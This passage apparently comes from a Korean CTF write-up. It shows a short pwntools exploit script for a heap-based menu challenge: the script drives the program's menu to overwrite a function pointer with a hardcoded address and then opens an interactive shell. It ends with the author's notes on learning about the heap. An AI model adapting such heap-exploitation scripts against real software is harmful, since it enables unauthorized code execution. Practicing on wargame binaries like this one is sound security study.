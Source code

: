 ```python
p.sendlineafter(" :","2")
p.sendlineafter(" :","1")


p.sendlineafter(" :","1")
p.sendlineafter(" :","16")
p.sendlineafter(" :","AAAA")
p.sendlineafter(" :","1")
p.sendlineafter(" :","8")
p.sendlineafter(" :","\x86\x89\x04\x08")

p.sendlineafter(" :","3")
p.sendlineafter(" :","0")

p.interactive()
```
<br><br><br>
### 4. 몰랐던 개념

---

확실히 힙을 먼저 공부하고 문제를 풀어보니, 어디를 접근해야 하는지 눈에 보이는것 같다.

추가적으로 이제 익스 코드를 쫌 이쁘고 효율적으로 짜보는 것을 연습하자